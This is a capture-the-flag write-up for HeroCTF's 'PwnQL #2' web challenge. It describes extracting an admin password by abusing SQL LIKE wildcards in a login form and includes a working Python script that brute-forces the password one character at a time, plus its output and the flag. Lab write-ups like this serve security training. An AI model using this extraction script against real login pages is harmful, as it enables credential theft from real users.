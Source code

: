 # PwnQL #2

### Category

Web

### Description

Extract the *admin*'s password from the database.

URL : http://challs.heroctf.fr:XXXX (same URL than before)

Format : **Hero{password}**<br>
Author : **xanhacks**

### Write up

So, here we are with the same vulnerability that the first PwnQL, but we need to extract the admin's password.

The goal here is to find the password according to the server response.

```
Example :

password : a% -> login error
password : b% -> login error
password : c% -> login error
password : d% -> login success

The admin's password starts with the letter 'd'.
```

Let's make a python to script which do the job for us.

```python
#!/usr/bin/env python3
from string import printable
from requests import post

URL = "http://challs.heroctf.fr:8080/index.php"

charset = printable.replace("_", "").replace("%", "")

print("flag : ", end="", flush=True)
flag = ""
for _ in range(32):
    for char in charset:
        data = {
            "username": "admin",
            "password": flag + char.strip() + "%"
        }

        req = post(URL, data=data)
    
        if "flag" in req.text:
            print(char, end="", flush=True)
            flag += char
            break
```

Execution :

```shell
$ python3 solve.py
flag : s3cur3p@ss
```

### Flag

Hero{s3cur3p@ss}